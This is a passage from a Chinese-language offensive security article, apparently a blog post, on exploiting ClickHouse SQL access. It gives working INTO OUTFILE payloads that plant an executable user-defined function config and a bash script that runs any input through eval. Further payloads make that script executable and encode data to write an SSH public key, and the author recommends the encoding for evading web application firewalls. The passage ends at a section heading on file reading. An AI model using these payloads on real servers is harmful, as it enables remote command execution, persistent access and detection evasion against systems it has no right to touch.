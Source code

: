 可以看到写入后正常执行。  
  
![图片.png](https://mmbiz.qpic.cn/mmbiz_png/awCdqJkJFERibB4viaZfBAoYAj588nThZx82GQGaBtTO2QY4Dha7M7gW3WaRHEOnTxrY0vEEcBWb5p0loJ2qwKnw/640?wx_fmt=png&from=appmsg "")  
  
  
来写脚本  
```
select '<functions>    <function>        <type>executable</type>        <name>test_shell</name>        <return_type>String</return_type>        <argument>            <type>String</type>            <name>str</name>        </argument>        <format>raw</format>        <command>test_shell.sh</command>        <lifetime>1</lifetime>    </function></functions>' into outfile '/etc/clickhouse-server/shell2_function.xml' TRUNCATE format rawselect '#!/bin/bashwhile read read_data;    do eval " $read_data ";done' into outfile '/var/lib/clickhouse/user_scripts/test_shell.sh' TRUNCATE format raw
```  
  
![图片.png](https://mmbiz.qpic.cn/mmbiz_png/awCdqJkJFERibB4viaZfBAoYAj588nThZx54eC37eMY0NRplbzof1fzJtsx4RoYg1c36dJia8mn3zt9Nd7tCjXeTQ/640?wx_fmt=png&from=appmsg "")  
  
这个时候执行的时候会提示没有权限，答案是写入的test_shell.sh没有执行权限。  
  
所以在套娃一下  
```
select '<functions>    <function>        <type>executable</type>        <name>shell</name>        <return_type>String</return_type>        <format>raw</format>        <command>chmod +x /var/lib/clickhouse/user_scripts/test_shell.sh</command>        <execute_direct>0</execute_direct>        <lifetime>1</lifetime>    </function></functions>' into outfile '/etc/clickhouse-server/shell_function.xml' TRUNCATE format raw
```  
  
![图片.png](https://mmbiz.qpic.cn/mmbiz_png/awCdqJkJFERibB4viaZfBAoYAj588nThZxnQBPuMuUS4d44m7eAdckmDKULzunichETWUialXMfHdDicC8UicCaZUhiaQ/640?wx_fmt=png&from=appmsg "")  
  
然后就有执行权限了  
### 0x06 encode  
  
有些情况下，我们输入的脚本过于复杂，就可以使用编码解码来进行写入  
  
https://clickhouse.com/docs/en/sql-reference/functions/string-functions#punycodedecode  
  
https://clickhouse.com/docs/en/sql-reference/functions/string-functions#base64encode  
  
https://clickhouse.com/docs/en/sql-reference/functions/hash-functions#sqidencode  
  
https://clickhouse.com/docs/en/sql-reference/functions/encoding-functions  
  
编码，解码的方式很多，base64，hex ，binary 等常见都可以  
  
这里直接使用binary编码后在解码写入公钥。  
  
![图片.png](https://mmbiz.qpic.cn/mmbiz_png/awCdqJkJFERibB4viaZfBAoYAj588nThZxqF6LdibiaPsia6nkvicrImpwrAJqcw2oSHDibkUDF9JN3sDtO5YqnyWedpw/640?wx_fmt=png&from=appmsg "")  
  
![图片.png](https://mmbiz.qpic.cn/mmbiz_png/awCdqJkJFERibB4viaZfBAoYAj588nThZxBTeynprpI38cbYVDarlyiahHOe2Iduqtym857Pd7PFw77XOKvPmp1QQ/640?wx_fmt=png&from=appmsg "")  
  
  
也可以使用hex编码，char  
  
![图片.png](https://mmbiz.qpic.cn/mmbiz_png/awCdqJkJFERibB4viaZfBAoYAj588nThZxdY50CNOtx5TtkTbW4EVriaIrsRB8Jnx1ncRlGb3gMV2xUwWIraQqKicg/640?wx_fmt=png&from=appmsg "")  
  
不用想，以后拿来绕waf极好的  
### 0x07 file 文件读取  
  